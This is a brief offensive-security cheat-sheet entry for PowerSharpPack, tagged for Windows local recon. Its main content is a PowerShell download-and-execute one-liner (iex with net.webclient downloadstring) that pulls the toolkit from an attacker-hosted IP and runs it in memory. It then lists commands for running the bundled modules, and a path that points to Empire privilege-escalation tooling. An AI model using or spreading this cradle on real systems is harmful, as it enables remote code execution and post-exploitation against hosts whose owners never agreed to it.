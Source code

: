 # powersharppack
#plateform/windows #target/local #cat/RECON #tag/powershell

## load 
```powershell
iex(new-object net.webclient).downloadstring('http://<local_ip>:<port|80>/<dl_powersharppack_path>PowerSharpPack.ps1')
```

## list all programs
```powershell
PowerSharpPack 
```

## run specific programm
```powershell
PowerSharpPack -<name> -Command "<params>"
```

= dl_powersharppack_path: windows/windows_weaponize/ps/empire/privesc/